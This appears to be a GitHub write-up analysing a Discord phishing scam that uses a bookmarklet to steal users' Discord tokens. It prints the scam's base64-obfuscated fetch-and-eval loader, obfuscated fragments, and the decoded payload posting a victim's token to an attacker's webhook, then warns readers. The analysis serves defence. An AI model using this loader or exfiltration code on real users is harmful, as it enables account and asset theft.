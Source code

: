 ## 📒 Introduction

**Scam Website:** https://projectgodjira.com/

I am neutral when it comes to NFTs. Recently, someone from a NFT community notfied me about this new scam involving bookmarklets, and a phishing website to steal Discord accounts and any linked NFTs.

**How the underlying scam works:**
1. The victim is DMed a link via Discord. The website in this DM is `https://projectgodjira.com/`. (The scam website)
2. When visitng this website, you are prompted to drag and drop a bookmarklet into your bookmark tray.
3. Upon clicking the bookmarklet, you are prompted to enter a "verification key" to gain access to their Discord server. 
4. As soon as that dialog is submitted, your Discord token is sent through a webhook to their Discord server.

**Quick Notes:**
- It appears they have linked a legit Twitter NFT service on their website to trick users: https://twitter.com/PGodjira.
- After using a BetterDiscord plugin to find hidden channels, there was a channel in their server named #mod-logs.
- The functionality of this bookmarklet is similiar to my repo: https://github.com/GalaxzyDev/MiniTokenMonster.

## 👀 First Glance
1. This is the bookmarklet hosted on the scam website at first glance:
```js
javascript:window.prompt('Enter your whitelist key:');eval(/*xmarksthespot.*/atob(/*Whitelist.*/'ZmV0Y2goImh0dHBzOi8vY2RuLmRpc2NvcmRhcHAuY29tL2F0dGFjaG1lbnRzLzkzOTM0MTk1NzcyMzk3OTc3Ni85MzkzNDM2MzM3MTc1NTkzMjYvbWVzc2FnZS50eHQiKS50aGVuKHJlc3BvbnNlID0+IHJlc3BvbnNlLnRleHQoKSkudGhlbihzdWNjZXNzID0+IGV2YWwoc3VjY2Vzcykp'))
```
2. The window.prompt() event is useless, lets get rid of this; as well as the comments. 

```js
javascript:eval(atob('ZmV0Y2goImh0dHBzOi8vY2RuLmRpc2NvcmRhcHAuY29tL2F0dGFjaG1lbnRzLzkzOTM0MTk1NzcyMzk3OTc3Ni85MzkzNDM2MzM3MTc1NTkzMjYvbWVzc2FnZS50eHQiKS50aGVuKHJlc3BvbnNlID0+IHJlc3BvbnNlLnRleHQoKSkudGhlbihzdWNjZXNzID0+IGV2YWwoc3VjY2Vzcykp'))
```
3. This is obviously code in base64, being decoded by the JavaScript `atob()` function, then ran. Lets go ahead and decode this.
```js
javascript:eval("fetch('https://cdn.discordapp.com/attachments/939341957723979776/939343633717559326/message.txt').then(response => response.text()).then(success => eval(success))")
```

4. We can now see a Discord CDN attachment, where they have hidden the rest of their "malware."
   - This code is most likely obfuscated with https://obfuscator.io/.

## 🚧 Going Deeper
1. I first used https://lelinhtinh.github.io/de4js/ to clean things up and format the obfuscated code.
2. I searched for strings such as `method`, `body`, and `fetch()` and came across the code below.
  ```js
_0x188590[_0x4444dd('0x39d', '0x344', '0x378', 'XRyX', 0x36d) + 'nt'] = _0x24e573(0xd9, '0qqU', '0xc6', 0xf5, 0x96) + _0x24e573(0x9, '*sVU', 0x105, -'0x35', 0x121) + _0x5d3af8(-0x72, -0x24b, '0qqU', -0x167, -0x10f) + ': ' + _0x15825c, fetch(_0x4444dd(0x393, 0x3d0, '0x32e', 'Azem', '0x2be') + _0x5735dc(0x15, 0xa9, 'gvqV', -'0x3b', 0x70) + _0x4444dd(0x38a, 0x46f, 0x3ec, 'Azem', '0x428') + _0x5d3af8(-0x11f, -'0x104', '*sVU', -0x2e, -'0x8f') + _0x4444dd(0x58f, 0x553, 0x491, '#T)l', 0x59c) + _0x24e573('0x1c', 'oe#2', 0x91, -0x21, -0x19) + _0x4444dd(0x3d1, 0x4a0, 0x45f, 'w2LG', 0x3f7) + _0x4444dd('0x418', 0x4df, 0x4d1, ')dR0', 0x3e7) + _0x24e573('0x6b', '0qqU', 0x83, 0x8e, -0x75) + _0x24e573(0xb8, 'CttX', 0x116, -'0x24', 0x90) + _0x5735dc(0x14b, 0xdd, 'Yqd8', '0x17c', '0xd2') + _0x1564d3(-0x167, 'Qa)H', -0xaf, -'0x140', 0x4e) + _0x24e573(-0x34, '7R#O', '0xe', 0x64, -'0x6d') + _0x4444dd('0x3c7', '0x27e', '0x347', '*AOY', 0x29e) + _0x5d3af8(-0x1cf, -0x6c, 'l2J&', -'0x105', -0x189) + _0x24e573(-0xfc, 'w2LG', -'0x17e', -'0x1ed', -0x7c) + _0x24e573('0x3a', '4]PG', 0x42, 0x79, -0x93) + _0x5735dc(0x71, 0x1ce, '*sVU', 0x1c9, '0x146') + _0x1564d3(-'0x1c3', 'w2LG', -'0x2ae', -0x31e, -'0x27e') + _0x4444dd(0x3b8, 0x44a, '0x3c9', 'Ykiw', '0x2f4') + _0x5d3af8(-0x1a8, -'0x1d', 'CttX', -'0xce', -'0x1c7') + _0x5d3af8(-0x22, -'0x1ce', 'CttX', -'0xe7', -'0x122') + _0x24e573(-'0x8e', 'Yqd8', -0x116, -0xa7, -'0x175') + _0x24e573(-0x96, 'wQ7E', -'0x170', -0x37, 0x60), {
    'method': _0x24e573(-0x12, '#T)l', 0x41, -'0x19', 0xf7),
    'headers': _0x451189,
    'body': JSON[_0x5735dc(0x1e1, -0x39, 'Yqd8', -'0x2', 0xde) + _0x5735dc(0x118, 0xb, '#qiQ', 0x1c6, '0xfd')](_0x188590)
}), alert(_0x1564d3(-0x61, 'Ykiw', -0x161, -0x97, -0x187) + _0x5735dc('0x285', 0xdf, 'PqTf', 0x286, '0x1c6') + _0x5735dc('0x17c', '0xf7', '#qwt', '0x140', 0xf2) + _0x5d3af8(-0x9, -'0x88', 'Oiv%', -'0xc1', -0x85) + _0x5735dc(0xea, '0x233', 'PYo$', 0x118, 0x1eb));
   ```
3. After a few `alert()` and `JSON.stringify()` functions later, the code above can be deobfuscated to:
 ```js
fetch("https://discord.com/api/webhooks/939322818280185906/ZkaQPqSP-vOrUdIObzR0QsU65jYkcoU6s7YEFjQphrhE_IOOHkDD2B-ip8hOFC4x9Tpa", {
  'method': 'POST',
  'headers': {'Content-Type': 'application/json'},
  'body': JSON.stringify({"username":"Logger","content":"@everyone Token: <VICTIMS DISCORD TOKEN>"})
}), alert("You have been whitelisted successfully!");
 ```

4. This makes it obvious that this is a scam, not to mention, it being a bookmarklet. 
   - The victims token will be sent over the webhook to their Discord's `#mod-logs` hidden channel.

## ⛔ Heads up!
People have fallen for this, due to this tactic not being widely seen. I hate to see people loose time and money due to this. Remember the notes below.
- If you are prompted to add a bookmarklet, proceed with caution! Bookmarklets can become way more complex than this scam.
- Do not leave sensitive information lying around in your Discord account! There are lots of grabbers nowdays, lmfao.
- Dont believe Discord DM advertisements, they are always false.
